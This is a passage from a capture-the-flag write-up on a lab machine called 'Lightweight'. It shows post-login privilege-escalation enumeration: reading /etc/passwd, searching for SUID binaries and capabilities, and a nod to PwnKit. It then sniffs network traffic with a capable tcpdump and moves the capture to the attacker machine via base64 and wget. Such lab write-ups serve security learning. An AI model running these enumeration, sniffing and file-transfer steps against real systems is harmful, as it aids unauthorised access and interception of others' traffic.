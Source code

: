 As it allows me to access the system using the **SSH** protocol, I connect using my assigned **IP** as username and password. Using some basic enumeration commands I find that the **Polkits** `pkexec` tool has **SUID** permissions, which is very likely to make the system vulnerable to **[pwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}** but is not the intended path so I continue my enumeration. There is a very interesting **[capabilitie](https://man7.org/linux/man-pages/man7/capabilities.7.html){:target="_blank"}** assigned to the `tcpdump` binary which **[allows me as an unprivileged user to capture packets](https://staff.washington.edu/shrike/unix/linux/how-to-enable-users-to-capture-packets/){:target="_blank"}** on the network, so I'm going to do a capture of all network interfaces to see if I find anything interesting. After waiting a while I try to transfer the generated file to my machine (for analysis) in different ways until I can get it with `base64`.

> CAP_NET_ADMIN: Perform various network-related operations.

> CAP_NET_RAW: Use RAW and PACKET sockets, bind to any address for transparent proxying.

> **Victime Machine**:

```bash
ssh 10.10.14.22@10.10.10.119

whoami
hostname
hostname -I
id
groups
cat /etc/passwd | grep 'sh$'
find \-perm -4000 2>/dev/null
getcap / -r 2>/dev/null
# /usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep

tcpdump -i any -w capture.cap -v
# :) wait a moment, at least 800 packets
which nc
which python3
which python2
which python
```

> **Attacker Machine**:

```bash
wget http://10.10.10.119:8080/capture.cap
```

> **Victime Machine**:

```bash
base64 -w 0 capture.cap; echo
```

> **Attacker Machine**:

```bash
echo "1MOyoQIA.....AAAAAAA=" | base64 -d > capture.cap
```

<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
